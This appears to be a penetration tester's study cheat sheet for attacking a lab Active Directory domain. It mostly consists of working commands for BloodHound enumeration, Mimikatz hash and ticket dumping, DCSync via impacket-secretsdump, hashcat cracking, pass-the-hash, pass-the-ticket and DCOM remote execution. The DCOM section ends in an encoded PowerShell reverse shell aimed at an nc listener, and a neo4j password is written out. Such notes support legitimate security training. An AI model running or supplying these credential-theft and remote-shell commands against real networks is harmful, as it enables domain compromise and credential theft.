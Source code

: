 ## Process - SharpHound/BloodHound
- Import to Powershell: `Import-module .\Sharphound.ps1`
- Start Sharphound: `Invoke-Bloodhound` (For Help: `Get-Help Invoke-Bloodhound`)
	- Start Collection: `Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\jeff\Desktop\ -OutputPrefix "domain audit"`
	- Copy Zip file to Kali
		- Impacket: `sudo impacket-smbserver share -smb2support /smbshare -user test -password 'test'`
		- Access Kali IP through Windows Explorer: `\\192.168.xx.xxx\`
- Start Bloodhound: 
	- Start neo4J: `sudo neo4j start`
	- Run `bloodhound
	- Browse to `http://localhost:7474` and login
	- Launch Bloodhound: `bloodhound` (`neo4j:':V&+w.,N.hBq#5`)
	- Upload .zip file from Sharphound Collection (drag and drop into Bloodhound)

## Passing NTLM Hashes with Mimikatz
- Run Mimkatz as above to retrieve NTLM hash via `lsadump::sam`
- Gain an interactive shell with `impacket-psexec` (hash format "LMHash:NTHash"): 

# DCSync
Requires credentials for member of _Domain Admins_, _Enterprise Admins_, or _Administrators_
- Mimikatz (On Windows)
	- `lsadump::dcsync /user:domain\targetuser` (eg. `lsadump::dcsync /user:corp\dave`)
	- Save as `hashes.dcsync` and crack with Hashcat: `hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
- Impacket-secretsdump (On Kali)
	- `impacket-secretsdump -just-dc-user targetuser domain.com/adminsuer:"AdminUserPassword\!"@192.168.dc.ip` 
	  (eg. `impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BlahBlahBlah"@192.168.50.162`)

## Overpass The Hash
Run **any** process as another (admin) user in Windows to cache their creds
- Windows: Shift right-click notepad, "run as different user", enter target user's creds to cache
- Mimikatz: `privilege::debug` then `sekurlsa::logonpasswords` (Grab target user NTLM hash)
- Create new PowerShell session as user from cached creds: `sekurlsa::pth /user:tgtuser /domain:corp.com /ntlm:USERNTLMHASHF84D7A70E2EB3B9F05C425E /run:powershell`
- Generate a TGT by authenticating to a network share: `net use \\files04`
- Check generated ticket with: `klist`
- Then run PsExec to launch cmd on targethost (files04): `.\PsExec.exe \\files04 cmd`

## Pass The Ticket
- Export all TGT/TGS (Mimikatz): `privilege::debug` & `sekurlsa::tickets /export`
- Check the exported tickets (PowerShell): `dir *.kirbi`
- Pick a ticket and inject it (Mimikatz): `kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
- Check import (PowerShell): `klist`
- Move to shared folder (PowerShell): `ls \\web04\`
## DCOM
Distributed Component Object Model (reqs Local Admin)
- Create variable for MMC2.0 applicationWith Admin(PowerShell): `$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.target.ip"))`
- Start nc listener: `nc -nlvp 443`
- Create a variable to pass an execute argument (use `encode.py` script): 
```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e BASE64ENCODEDREVERSESHELLJABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```